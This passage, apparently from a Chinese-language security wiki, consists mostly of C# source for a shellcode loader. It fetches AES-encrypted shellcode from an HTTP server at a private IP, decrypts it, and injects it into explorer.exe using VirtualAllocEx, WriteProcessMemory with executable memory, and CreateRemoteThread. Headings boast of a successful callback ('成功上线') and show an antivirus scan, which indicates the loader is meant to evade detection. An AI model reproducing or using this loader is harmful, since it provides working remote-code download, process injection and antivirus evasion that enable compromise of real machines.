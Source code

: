 ```c
                {
                    if (name.ProcessName.ToLower().IndexOf("explorer") != -1)//注入到资源管理器中
                    {
                        IntPtr hThread = IntPtr.Zero;
                        UInt32 threadId = 0;
                        IntPtr pinfo = IntPtr.Zero;

                        UInt32 funcAddr = (uint)VirtualAllocEx(name.Handle, 0, (uint)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                        //在宿主进程中申请一块存储区域

                        WriteProcessMemory(name.Handle, (int)funcAddr, shellcode, shellcode.Length, 0);
                        //通过WriteProcessMemory函数将线程代码写入宿主进程中（替换上边的）

                        /*threadId = GetProcAddress(GetModuleHandleA("Kernel32"), "LoadLibraryA");*/
                        //取得loadlibrary在kernek32.dll地址

                        hThread = CreateRemoteThread(name.Handle, 0, 0, funcAddr, pinfo, 0, ref threadId);
                        WaitForSingleObject(hThread, 0xFFFFFFFF);
                        Console.WriteLine("执行完毕，Success");
                    }
                }
            }
            catch (Exception e)
            {
                Console.Error.WriteLine("exception: " + e.Message);
            }
        }
        static void Main(string[] args)
        {
            NewKey();//生成32位的密钥key
            string shellcode = GetShell("http://192.168.1.103:5000/");//从HTTP服务器获取加密的Shellcode
            shellcode = AesDecrypt(shellcode, key);//这里就得到了动态加解密后的shellcode
            //Console.WriteLine(shellcode);//输出测试

            //接下来注入到进程
            runShell(shellcode);
        }
    }
}
```

**成功上线**

![](https://wiki.wgpsec.org/images/ss.png)

**杀软扫描**

![](https://wiki.wgpsec.org/images/image-20200725203712920.png)
